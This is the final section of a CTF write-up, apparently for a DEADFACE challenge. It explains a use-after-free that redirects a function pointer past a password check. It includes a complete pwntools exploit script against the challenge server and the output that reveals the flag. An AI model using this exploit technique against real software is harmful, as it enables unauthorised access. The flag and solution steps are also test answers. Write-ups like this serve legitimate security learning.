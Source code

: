 ## Creating the Exploit:

At this point, the main thing to do is come up with an address to jump to that will give us the flag. The obvious choice is to look at the retrieve_admin_key function, since that can print the flag off. If we jump to 0x08048bc5 halfway through the function, we can bypass the password check and jump directly to the part that sends the flag. 

![image](https://user-images.githubusercontent.com/10614967/196070952-434bc352-5738-4b40-8862-fa5b9c1697cb.png)

The following script will overwrite the delete_structure pointer with the address to print the flag:
```
from pwn import *

target = remote('exploitchecker.deadface.io', 1337)

addr1 = str(0x8bc5)
addr2 = str(0x0804)
unimportant = str(1)

print(target.recvuntil(b'6: Exit'))
target.sendline(b'1')


print(target.recvuntil(b'What'))
target.sendline(unimportant)
print(target.recvuntil(b'What'))
target.sendline(unimportant)
print(target.recvuntil(b'What'))
target.sendline(unimportant)

print(target.recvuntil(b'6: Exit'))
target.sendline(b'2')
print(target.recvuntil(b'6: Exit'))
target.sendline(b'3')

print(target.recvuntil(b'What'))
target.sendline(unimportant)
print(target.recvuntil(b'What'))
target.sendline(addr1)
print(target.recvuntil(b'What'))
target.sendline(addr2)
print(target.recvuntil(b'What'))
target.sendline(unimportant)
print(target.recvuntil(b'What'))
target.sendline(unimportant)

print(target.recvuntil(b'6: Exit'))
target.sendline(b'2')
target.interactive()
```
This will print the flag:
```
b' is the type?\n\x001: Make a Target\n2: Delete a Target\n3: Create an Exploit\n4: Check Exploit Compatability\n5: Retrieve Admin Key  \n6: Exit'
[*] Switching to interactive mode

\x00flag{r3M0t3-Use-Aft3r-Fr33-B@bY}
\x00$
```
Thanks for reading!
